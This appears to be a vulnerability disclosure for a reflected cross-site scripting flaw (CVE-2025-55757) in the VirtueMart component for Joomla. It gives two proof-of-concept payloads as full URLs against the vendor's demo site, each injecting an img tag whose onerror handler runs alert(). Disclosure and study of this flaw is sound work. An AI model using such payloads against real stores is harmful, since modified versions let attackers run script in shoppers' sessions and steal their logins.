


# Cross Site Scripting (XSS) in VirtueMart component 1.0.0 - 4.4.10 for Joomla!

**CVE Link:** https://www.cve.org/CVERecord?id=CVE-2025-55757

**VirtueMart:** https://virtuemart.net/download

## Introduction
A unauthenticated reflected XSS vulnerability in VirtueMart 1.0.0-4.4.10 for Joomla was discovered.

### XSS 1

#### POC
Payload: `fghj">`

Final Payload: https://demo.virtuemart.net/?Itemid=606&keyword=fghj%2522%253E%253Cimg%2520src%3Dx%2520onerror%3D%2522self.alert(%27XSS%2520POC%27)%2522%2520class%3Dtest%253E&option=com_virtuemart&view=category&virtuemart_category_id=13

### XSS 2

#### POC
Payload: `&#39;&#34;&gt;&lt;img/src/onerror=.1|alert``&gt;`

Final Payload: https://demo.virtuemart.net/list-orders.html?layout=list&view=%26%2339%3B%26%2334%3B%26gt%3B%26lt%3Bimg%2Fsrc%2Fonerror%3D.1%7Calert%60%60%26gt%3B

